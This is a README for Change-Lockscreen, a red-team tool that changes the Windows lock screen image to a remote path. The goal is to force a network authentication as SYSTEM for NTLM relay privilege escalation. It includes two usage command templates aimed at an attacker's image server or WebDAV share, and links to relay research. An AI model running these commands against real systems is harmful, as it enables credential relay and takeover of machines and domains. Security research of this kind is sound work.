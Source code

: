 # Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from the command line to perform privilege escalation attacks such as the one described in the post linked below:
*  (Link to Blog)

# Features

By default, Windows 10 has a feature called Windows Spotlight. It downloads and displays lock screen images automatically.
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it, trigger the network authentication, and establish it again

Note: while the PowerShell version of the tool works reliably, the C# version sometimes fails to restore the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

[![Watch the video](https://i.ytimg.com/vi/NsDQH1H89FQ/maxresdefault.jpg)](https://youtu.be/NsDQH1H89FQ)



# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
